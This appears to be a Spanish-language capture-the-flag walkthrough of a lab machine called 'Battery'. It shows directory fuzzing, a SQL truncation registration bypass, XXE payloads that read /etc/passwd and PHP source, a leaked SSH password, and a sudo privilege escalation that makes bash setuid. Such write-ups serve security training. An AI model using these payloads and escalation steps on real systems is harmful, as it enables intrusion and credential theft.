






## Puertos abiertos

```
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```

Descarga de binario en la ruta `http:///10.10.24.164/report`



### Fuzzing web

```
❯ dirsearch -u "http://10.10.24.164/" -w /usr/share/wordlists/dirb/common.txt -e php,txt,html -f -t 60
[...]
[11:06:43] 200 -    1KB - /acc.php
[11:06:44] 200 -  663B  - /admin.php
[11:06:45] 200 -  663B  - /admin.php/
[11:07:02] 302 -  908B  - /dashboard.php  ->  admin.php
[11:07:15] 200 -    2KB - /forms.php
[11:07:21] 403 -  285B  - /icons/
[11:07:21] 200 -  406B  - /index.html
[11:07:30] 302 -    0B  - /logout.php  ->  admin.php
[11:07:53] 200 -  715B  - /register.php
[11:07:54] 200 -   17KB - /report
[11:07:57] 301 -  313B  - /scripts  ->  http://10.10.24.164/scripts/
[11:07:57] 200 -    2KB - /scripts/
[11:07:58] 403 -  293B  - /server-status/
[11:07:58] 403 -  292B  - /server-status
[11:08:15] 302 -    1KB - /with.php  ->  admin.php
```
Posibles usuarios

```
❯ strings report | grep "@bank" | tee users
admin@bank.a
support@bank.a
contact@bank.a
cyber@bank.a
admins@bank.a
sam@bank.a
admin0@bank.a
super_user@bank.a
control_admin@bank.a
it_admin@bank.a
```

### SQL truncation

[https://linuxhint.com/sql-truncation-attack/](https://linuxhint.com/sql-truncation-attack/)

Interptando petición web `register.php`  
Creo una cuenta como usuario administrador obtenido de las cadenas imprimibles del binario `report` que se habia descargado.

`admin@bank.a` tiene 12 caracteres y el tope en el login de la página es 12.  
Por tanto registro un usuario `admin@bank.a  a` con 2 espacios mas y un caracter adicional de esta forma bypasseando la seguridad de registro.



Inicio sesion como usuario `admin@bank.a` 



----

### XML External Entity Attack

> Un ataque de entidad externa XML es un tipo de ataque contra una aplicación que analiza la entrada XML. Este ataque ocurre cuando la entrada XML que contiene una referencia a una entidad externa es procesada por un analizador XML debilmente configurado.

Parámetro vulnerable `<search>`



Payload

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE xxe [
	<!ENTITY payload SYSTEM "file:///etc/passwd">
	]>
	<root>
		<name>
			test
		</name>
		<search>
		&payload;
		</search>
	</root>
```



### Obteniendo password para cyber

Payload

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE xxe [
	<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=acc.php">
	]>
	<root>
		<name>
			test
		</name>
		<search>
			&payload;
		</search>
	</root>
```



```cyber:super#secure&password!```

Conexion por `ssh`

```
ssh cyber@10.10.24.164
```

## Escalada de privilegios

Abusando de permisos mal configurados (sudo)

```
cyber@ubuntu:~$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
cyber@ubuntu:~$ ls -l
total 8
-rw--w---- 1 cyber cyber  85 Nov 15  2020 flag1.txt
-rwx------ 1 root  root  349 Nov 15  2020 run.py
```

Como estoy dentro de la carpeta de mi usuario puedo eliminar el archivo `run.py`, crearlo nuevamente y editarlo.

```
cyber@ubuntu:~$ rm run.py 
rm: remove write-protected regular file ‘run.py’? y
cyber@ubuntu:~$ ls
flag1.txt
cyber@ubuntu:~$ nano run.py
cyber@ubuntu:~$ cat run.py 
import os
os.system("chmod +s /bin/bash")
os.system("/bin/bash -p")
```

```
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py
root@ubuntu:~# whoami
root
root@ubuntu:~# cat /root/root.txt 
████████████████████████████████████  
██                                ██  
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██                                ██  
████████████████████████████████████  


                                                battery designed by cyberbot :)
                                                Please give your reviews on catch_me75@protonmail.com or discord cyberbot#1859
```
